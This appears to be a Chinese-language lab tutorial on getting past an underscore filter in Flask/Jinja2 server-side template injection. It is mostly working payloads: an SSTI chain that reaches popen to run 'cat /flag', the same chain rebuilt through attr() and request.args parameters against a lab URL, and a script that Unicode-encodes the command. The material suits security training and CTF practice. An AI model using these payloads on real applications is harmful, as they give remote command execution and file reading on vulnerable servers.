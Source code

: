

# 9.过滤器绕过下划线过滤

## 1.request 绕过

attr()函数

原paylload

```
{{''.__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"]('cat /flag').read()}}
```

![image-20240513212013589](SSTI/image-20240513212013589.png)

```
http://192.168.204.149:18080/flasklab/level/6?class=__class__&base=__base__&sub=__subclasses__&geti=__getitem__&init=__init__&globals=__globals__
```

```
code={{()|attr(request.args.class)|attr(request.args.base)|attr(request.args.sub)()|attr(request.args.geti)(117)|attr(request.args.init)|attr(request.args.globals)|attr(request.args.geti)('popen')('cat /flag')|attr('read')()}}
```

## 2.编码绕过

### 1.Unicode编码

 Unicode编码的python脚本如下：

```
class_name = "cat /flag"

unicode_class_name = ''.join(['\\u{:04x}'.format(ord(char)) for char in class_name])

print(unicode_class_name)
```
